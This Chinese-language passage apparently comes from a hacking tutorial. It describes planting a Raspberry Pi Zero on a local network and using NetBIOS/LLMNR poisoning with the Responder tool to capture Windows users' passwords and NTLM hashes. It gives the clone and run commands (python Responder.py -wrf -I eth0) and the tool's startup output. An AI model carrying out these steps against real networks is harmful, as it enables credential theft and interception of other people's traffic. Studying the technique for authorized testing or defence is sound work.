这种方法的主要问题是随着时间的推移其可靠性能否得到保障。由于网关也响应ARP请求，它有时可以赢得比赛并接收数据。随着时间的推移，受害设备可能会在实际网关和PI 0之间交替，从而降低所收集数据的质量。

另外，许多新的路由器被配置为在看到大量ARP欺骗消息时触发（有时是剧烈的）对策：断开欺骗信息发送者的连接、忽略其消息、禁止其发送等。

值得庆幸的是，有一种非常类似的方法可以达到中间人的地位，这有点难以消除：NetBIOS投毒。NetBIOS是一种协议（应用层），微软设备使用它将名称解析为IP地址，与DNS完全一样。

不过，让我们最高兴的是，它的工作原理很像ARP。一台计算机高喊它想要联系的服务器的名称：“FRSV01的IP地址是什么？“第一台声称知道这台机器IP的机器赢得了比赛，并收到了承诺的数据。不执行其他检查。

事实证明，Windows操作系统在很大程度上依赖于NetBIOS名称：装载网络共享、连接到SQL Server数据库、加载内部网站等。

因此，我们的目标是将PI 0用作NetBIOS泛洪设备，这意味着它将响应本地Windows设备（平板电脑和计算机）建立的任何NetBIOS连接。

一旦我们成功地诱骗设备向我们发送其数据，我们就可以像任何合法的服务器一样，有效地模拟服务器并请求用户的凭据。

因为我们和目标设备在同一个本地网络上，所以我们有更多的机会赢得比赛并获得可靠的数据流。根据设备发出的请求，如果用户浏览受基本身份验证保护(在基本身份验证方案中，用户会以base64编码格式附加一个包含“login:password”的HTTP头。这个头出现在所有请求中，这使得拦截变得很简单。)的内部网页，我们将获得明文密码，或者更可能获得NTLM响应散列（稍后详细介绍）。

我们将使用Responder工具执行NetBIOS投毒攻击。我们可以用以下命令：
```
root@PIspy:# $ git clone https://github.com/SpiderLabs/Responder
```

此工具将在PI上生成多个Windows经常使用的伪服务：文件共享服务（SMB）、HTTP、FTP、SQL Server等，并耐心等待依赖NetBIOS的客户端与其服务器联系。
```
root@PIspy:# cd Responder
root@PIspy:~/Responder# python Responder.py -wrf -I eth0
 __
 .----.-----.-----.-----.-----.-----.--| |.-----.----.
 | _| -__|__ --| _ | _ | | _ || -__| _|
 |__| |_____|_____| __|_____|__|__|_____||_____|__|
 |__|
 NBT-NS, LLMNR & MDNS Responder 2.3
 Author: Laurent Gaffie (laurent.gaffie@gmail.com)
 To kill this script hit CRTL-C
 [+] Poisoners:
 LLMNR [ON]
 NBT-NS [ON]
 DNS/MDNS [ON]
[+] Servers:
 HTTP server [ON]
 HTTPS server [ON]
 WPAD proxy [ON]
 SMB server [ON]
 Kerberos server [ON]
 SQL server [ON]
 FTP server [ON]
 IMAP server [ON]
 POP3 server [ON]
  SMTP server [ON]
 DNS server [ON]
 LDAP server [ON]
[+] HTTP Options:
 Always serving EXE [OFF]
 Serving EXE [OFF]
 Serving HTML [OFF]
 Upstream Proxy [OFF]
[+] Poisoning Options:
 Analyze Mode [OFF]
 Force WPAD auth [OFF]
 Force Basic Auth [OFF]
 Force LM downgrade [OFF]
 Fingerprint hosts [ON]
[+] Generic Options:
 Responder NIC [eth0]
 Responder IP [192.168.1.19]
 Challenge set [1122334455667788]
[+] Listening for events...
```